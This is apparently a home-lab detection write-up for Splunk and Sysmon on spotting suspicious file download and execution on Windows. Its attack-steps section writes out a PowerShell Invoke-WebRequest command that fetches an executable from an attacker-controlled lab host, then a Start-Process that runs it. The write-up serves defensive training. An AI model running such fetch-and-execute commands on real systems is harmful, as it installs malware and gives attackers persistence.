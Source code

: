 

# Detection Usecase 3 : Suspicious File Download and Execution


# Scenario Summary: 
Attacker or Malicious Person attemps to download and execute a shell in the target system  
to maintain persistence with the target, using Powershell.

# Attack Steps:
Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.

- The Attack was simulated by Kali Linux on Windows as follows:  
1) Attacker Login to Victim Machine via SSH  
```
ssh sshuser@10.10.99.77
```  
2) Opened a Python Server from which local file can be uploaded in remote system.  
```
python3 -m http.server 80
```  

3) He tries to upload and execute a shell through powershell to stay persistent in target system.
```
Invoke-WebRequest -URi http://10.10.90.252/veenom.exe -Outfile C:\Users\sshuser\venom.exe  
Start-Process C:\Users\sshuser\venom.exe
```

- Tools Used:  
    - Attacker Tool : SSH, Powershell, 
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon


# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                      |
|---------------------------|-----------|----------------------------------|
| WinEventLog : Security    | 4624      | Successfully Logged On           |
| WinEventLog : Sysmon      | 1         | Process Creation                 |
| WinEventLog : Security    | 5156      | Windows Permitted a Connection   |
| WinEventLog : Sysmon      | 3         | Network Connection Detected      |
| WinEventLog : Sysmon      | 11        | File Creation                    |
| WinEventLog : Security    | 4634      | User was logged off              |

# Detection Query / Logic:
```spl 
- Search Login
index=* EventCode=4624 Account_Domain="VIRTUAL USERS" sshd.exe
```
```spl 
- Search Pwsh
index=* EventCode=1 CommandLine="powershell"
```
```spl 
- Search Connection Attempt
index=* EventCode=3 OR EventCode=5156
```
```spl 
- Search File Creation
index=* EventCode=11
```

# Sample Alert Screenshot

1) Attacker Run command : powershell 
![powershell](<logs/Screenshot 2025-05-25 134135.png>)

3) Try to make connection with a remote server.  
![permits](<screenshots/Screenshot 2025-05-25 134338.png>)
![attempt](<logs/Screenshot 2025-05-25 132612.png>)

4) System has generated a file based on the pwsh cmd.  
![file](</logs/Screenshot 2025-05-28 204345.png>)

5) File was run  
![file_run](<logs/Screenshot 2025-05-28 143730.png>)

6) Downloaded File  
![venom](<logs/Screenshot 2025-05-28 205034.png>)

# Analyst Notes / Recommendations:

* What Should an Analyst do ? 

-> Investigate and Verify the events through analysis of log and alerts.  
-> Try to look for pattern like File Extension's(.e.g., .exe, .ps1, .php etc).  
-> If it is a unauthorized execution , then try to isolate the System, Kill the process, & Block the domain or IP.  
-> Fix the vulnerability which caused the attack to happen(e.g., Password Policy - Change Pass every week).  
-> Report & Document.


# Detection Status

 -> Successfully Detected.  
